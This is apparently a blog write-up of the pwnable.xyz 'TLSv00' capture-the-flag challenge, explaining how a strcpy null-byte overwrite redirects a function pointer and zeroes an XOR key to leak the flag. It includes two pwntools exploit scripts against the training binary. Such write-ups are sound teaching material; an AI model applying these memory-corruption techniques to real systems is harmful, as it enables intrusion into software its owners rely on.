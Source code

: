 ```yaml
---
title: pwnable.xyz TLSv00
date: 2025-2-27
categories: [pwnableXYZ, writeup]
---
```


# Problem

> Transport the flag securely, right?

- `challenge`: challenge: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9a059015fda4b190e6f6e9d20cbab5de1b47d980, not stripped

# Recon

The structure and flow of the program are as follow

- `main()`
    - `generate_key(0x3f)`
    - input:
        - 1 -> `generate_key(read_int32())`
        - 2 -> `load_flag()`
        - 3 -> `print_flag()`
- `generate_key(len)`
    - read `len` bytes from `/dev/urandom` to buffer
    - `strcpy` buffer to `key`
- `load_flag()`
    - read flag to `flag`
    - XOR encode `flag` with `key`
- `print_flag()`
    - byte `do_comment` is 0
        - if input == 'y'
            - move `f_do_comment` to `do_comment`
        - run `do_comment()`
    - else
        - do nothing
- `f_do_comment()`
    - read 33 bytes from stdin
- `real_print_flag()`
    - print `flag`

Also all security settings are enabled, it's most likely that we need to override `do_comment` to `real_print_flag`

![alt text]({{site.baseurl}}/assets/images/pwnable-xyz-TLSv00/checksec.png)

# Exploit

## Override do_comment

Notice that `f_do_comment` is at 0xb1f, `real_print_flag` is at 0xb00 , and the global variables `key` and `do_comment` memory are as follow, so after first `print_flag` we only need to change the first byte to \x00 (little endian), which can be done with `generate_key(0x40)`, since `strcpy` will write a \x00 byte to the end of the string.

![alt text]({{site.baseurl}}/assets/images/pwnable-xyz-TLSv00/global.png)

With this script, it can successfully call `real_print_flag`, however the flag is encrypted.

```python
io = start()

# set do_comment = f_do_comment
io.sendlineafter(b"> ", b"3")
io.sendlineafter(b"Wanna take a survey instead? ", b"y")

# override first byte of do_comment to \x00
io.sendlineafter(b"> ", b"1")
io.sendlineafter(b"key len: ", b"64")

# load and print flag
io.sendlineafter(b"> ", b"2")
io.sendlineafter(b"> ", b"3")
io.sendlineafter(b"Wanna take a survey instead? ", b"n")
flag = io.recv(0x40)
log.info(f"{flag = }")

io.interactive()
```

![alt text]({{site.baseurl}}/assets/images/pwnable-xyz-TLSv00/encrypted.png)

## Override Key

Since any byte XOR with 0 is the same, we can use the same concept that `strcpy` will write \x00 to the end to reset the key to all \x00 except the first byte due to `generate_key` constraint. The final exploit will be

```python
io = start()

# set do_comment = f_do_comment
io.sendlineafter(b"> ", b"3")
io.sendlineafter(b"Wanna take a survey instead? ", b"y")

# override first byte of do_comment to \x00
io.sendlineafter(b"> ", b"1")
io.sendlineafter(b"key len: ", b"64")

# set key+0x1 to key+0x3f to \x00
for i in range(0x3f, 0x0, -1):
    log.info(f"setting key+{hex(i)} to 0")
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"key len: ", f"{i}".encode())


# load and print flag
io.sendlineafter(b"> ", b"2")
io.sendlineafter(b"> ", b"3")
io.sendlineafter(b"Wanna take a survey instead? ", b"n")
flag = b"F" + io.recv(0x40).split(b'}')[0][1:] + b"}"
log.info(f"{flag = }")

io.interactive()
```